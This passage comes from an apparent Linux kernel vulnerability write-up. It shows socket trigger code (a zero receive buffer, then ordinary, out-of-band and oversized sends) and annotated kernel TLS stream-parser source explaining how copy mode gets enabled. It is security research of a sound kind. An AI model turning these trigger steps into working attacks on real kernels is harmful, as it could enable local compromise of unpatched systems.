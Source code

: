 ``` c
int rcvbuf_size = 0x0;
setsockopt(accept_fd, SOL_SOCKET, SO_RCVBUF, &rcvbuf_size, sizeof(rcvbuf_size));
```

On the client side, we send the following packets:

``` c
send(client_fd, data, 1, 0);       // copied_seq=0, urg_seq=0, rcv_nxt=1
send(client_fd, data, 1, MSG_OOB); // copied_seq=0, urg_seq=1, rcv_nxt=2
send(client_fd, data, 0x2000, 0);  // copied_seq=0, urg_seq=1, rcv_nxt=0x2002
```

When the last packet is sent, `tcp_inq()` returns 1 [1] (`urg_seq` - `copied_seq`), and `tls_strp_load_anchor_with_queue()` sets the anchor’s `skb->len` to `inq`. Since `skb->len` is smaller than the prepend size, `tls_rx_msg_size()` [3] returns zero, and `tls_strp_read_copy()` is then called [4].

``` c
static int tls_strp_read_sock(struct tls_strparser *strp)
{
    int sz, inq;

    inq = tcp_inq(strp->sk); // [1]
    if (inq < 1)
        return 0;

    tls_strp_load_anchor_with_queue(strp, inq); // [2]
    
    // [...]
    if (!strp->stm.full_len) {
        sz = tls_rx_msg_size(strp, strp->anchor); // [3]
        // [...]

        strp->stm.full_len = sz;

        if (!strp->stm.full_len || inq < strp->stm.full_len)
            return tls_strp_read_copy(strp, true); // [4]
    }
}
```

Because we send a packet larger than the receive buffer, `tcp_epollin_ready()` returns true [5], and **copy mode is enabled** [6].

Afterwards, `tls_strp_read_copyin()` is used to receive the data.

``` c
static int tls_strp_read_copy(struct tls_strparser *strp, bool qshort)
{
    if (likely(qshort && !tcp_epollin_ready(strp->sk, INT_MAX))) // [5]
        return 0;

    strp->copy_mode = 1; // [6]
    // [...]
    tls_strp_read_copyin(strp);
    return 0;
}
```
